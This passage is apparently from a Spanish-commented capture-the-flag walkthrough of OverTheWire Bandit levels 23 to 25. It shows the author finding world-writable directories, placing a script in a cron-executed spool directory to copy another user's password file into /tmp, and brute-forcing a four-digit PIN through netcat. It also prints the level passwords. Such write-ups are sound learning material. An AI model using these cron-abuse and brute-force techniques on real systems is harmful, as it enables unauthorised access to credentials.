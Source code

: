 ```shell
#    - Finalmente, independientemente de si el archivo fue ejecutado o no, se elimina usando `rm -f`, que fuerza la eliminación sin pedir confirmación.

'Nos quedamos con la parte del script que nos indica que ejecuta los archivos que esten en el directorio actual o en el anterior'
if [ "$i" != "." -a "$i" != ".." ];

'Vemos que tenemos permiso de escritura en el directorio '
find / -type d -perm -o+w 2>/dev/null

/tmp
/var/spool/bandit24/foo
/run/lock
/run/lock/test
/run/screen

'Como es el directorio donde la tarea cron ejecuta y lee los scripts, creamos un script que nos permita leer como el usuario bandit24 el fichero de /etc/bandit_pass/bandit24 y lo guarde en otro directorio que tenga permisos para escribir'

touch prova.sh
#!bin/bash
cat /etc/bandit_pass/bandit24 > /tmp/bandit24.txt
#
chmod +x prova.sh
cd /usr/bin/
./cronjob_bandit24.sh
cd /tmp
cat bandit24.txt
Output: gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8



```

> Flag: gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8

> Level 24-25:

A daemon is listening on port 30002 and will give you the password for bandit25 if given the password for bandit24 and a secret numeric 4-digit pincode. There is no way to retrieve the pincode except by going through all of the 10000 combinations, called brute-forcing.\
You do not need to create new connections each time

```shell
cd /tmp/
vim brutef.sh

#!bin/bash

for i in {0000..9999}
do
	echo "gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8 $i" >> bandit25pin
done
#
cat bandit25pin | nc localhost 30002 >> bandit25pass 
cat bandit25pass
# tail -n 5 bandit25pass (muestra las 5 ultimas linias)
Output:
The password of user bandit25 is iCi86ttT4KSNe1armKiwbQNmB3YJP3q4
```
